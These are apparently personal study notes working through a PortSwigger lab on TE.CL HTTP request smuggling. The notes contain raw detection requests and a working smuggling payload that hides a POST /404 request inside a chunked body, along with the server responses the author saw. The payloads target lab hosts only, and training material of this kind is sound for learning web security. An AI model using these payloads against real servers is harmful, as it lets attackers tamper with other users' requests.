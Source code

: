 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```

![](../../../Attachments/Pasted%20image%2020250818175935.png)
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:
![[Invalid Chunk SIze.png]]


Confirming TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**
![[Pasted image 20250818180347.png]]

# Usage of Differential Responses:

Explained:
![[Confirmation Diffential Responses TE CL.png]]

Crafting the request:
Adjusting the Content-Length of the smuggles request, to the minimum to append to the next request:
![[Pasted image 20250818183436.png]]

Adjusting the chunk size to correspond to the 404 request until its body (excluding last non-printable):
![[Pasted image 20250818184053.png]]
Adjusting first Content-Length to include only chunked size and following non-printable chars:
![[Pasted image 20250818184628.png]]

# Exploiting

```HTTP
POST / HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```
Got the **200 OK** and immediately send the normal request which responded with a **404 Not Found**
